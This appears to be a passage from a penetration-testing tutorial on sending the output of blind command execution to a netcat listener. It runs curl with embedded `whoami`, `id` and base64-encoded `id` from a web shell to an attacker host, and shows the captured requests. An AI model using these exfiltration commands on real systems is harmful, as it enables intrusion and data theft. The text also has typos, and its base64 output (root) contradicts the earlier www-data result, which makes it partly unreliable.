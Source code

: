 ```
curl http://192.168.139.130:53/`whoami`
```

```
nc -lvp 53
listening on [any] 53 ...
connect to [192.168.139.130] from 0xluk3 [192.168.139.130] 45792
GET /www-data HTTP/1.1
Host: 192.168.139.130:53
User-Agent: curl/7.63.0
Accept: */*
```

The output of the command was sent from the remote server. Such a senario is useful during exploiting bind code execution vulnerabilities. It might be the only way to get the output of underline commands being executed.

Let's try to extract big pose of data. We will use the `id` command. Please note that its output contains spaces.

```
nc -lvp 53
listening on [any] 53 ...
```

在shell.php上执行：

```
curl http://192.168.139.130:53/`id`
```

```
nc -lvp 53
listening on [any] 53 ...
connect to [192.168.139.130] from 0xluk3 [192.168.139.130] 45792
GET /uid=33(www-data) HTTP/1.1
Host: 192.168.139.130:53
User-Agent: curl/7.63.0
Accept: */*
```

Space in the command output breaks the HTTP request. Using this method will not able to get any useful data back. However, maybe we can encode data somehow, let's try with base 64.

```
curl http://192.168.139.130:53/`id | base64`
```

```
nc -lvp 53
listening on [any] 53 ...
connect to [192.168.139.130] from 0xluk3 [192.168.139.130] 45792
GET /dWlkPTAocm9vdCkgZ2lkPTAocm9vdCkgZ3JvdXBzPTAocm9vdCkK HTTP/1.1
Host: 192.168.139.130:53
User-Agent: curl/7.63.0
Accept: */*
```
